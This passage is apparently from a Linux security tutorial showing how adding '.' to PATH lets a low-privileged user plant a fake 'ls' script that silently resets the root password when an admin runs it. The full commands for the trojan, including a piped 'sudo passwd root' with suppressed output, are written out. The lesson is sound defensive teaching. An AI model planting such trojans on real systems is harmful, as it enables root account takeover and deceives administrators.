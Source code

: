 ```
PATH=.:${PATH}  
export PATH  
```

Now we do not need to do `./whoisthebest` to run the command, we can
just type in `whoisthebest`! Imagine all of the productivity cyberuser
can have now by doing this!  
  
Let’s just say Chrono over hears this and gets pretty frustrated at what
cyberuser is doing. Not only does cyberuser have all the privileges,
they can’t be bothered to put in the `./`? How lazy! However, this
gives Chrono an idea.
  
Switch over to Chrono and go into his `/home/Chrono` directory, create
a new file:

```
nano ls
```

And within that file type this command:

```
echo -e "Hello World\nHello World" | sudo passwd root > /dev/null 2>&1  
```

After that is done make sure to make it an executable:  

```
chmod +x ls  
```

What is the reason for this? Well due to cyberuser changing his path
variable to not need the `./` to run scripts, Linux will now search
for the program in the current directory first, before beginning to
search elsewhere. This causes an issue now, due to Chrono naming his new
script `ls` instead of running the command that lists out what is in
the current directory, it will run his script first!
  
Now what exactly does the script he made do? It echoes `Hello World`
twice, with a new line created between them. It takes these two **Hello
World** phrases and it puts it into the `sudo passwd root` command due
to the `|` between the two commands. We have two **Hello World** phrases
because when you change a password in Linux you need to confirm it by
typing it twice, this circumvents that issue. Lastly the `> /dev/null 2>&1` 
at the end of the obfuscates the command when you run it, 
making it show nothing as an output.  
  
This works to our favor now, Chrono can trick cyberuser into saying that
the `ls` command is not showing his files in his directory, since
cyberuser is the admin, he will go check it out and run the command.
However due to the path variable set earlier, it will not run the
regular `ls` command, but the password changing script that Chrono
made. To add credibility to Chrono’s story, nothing will be outputted
thanks to the obfuscation,, making it really appear that the `ls`
command is not working, when in reality, the passwd for root just
changed to `Hello World`.  
  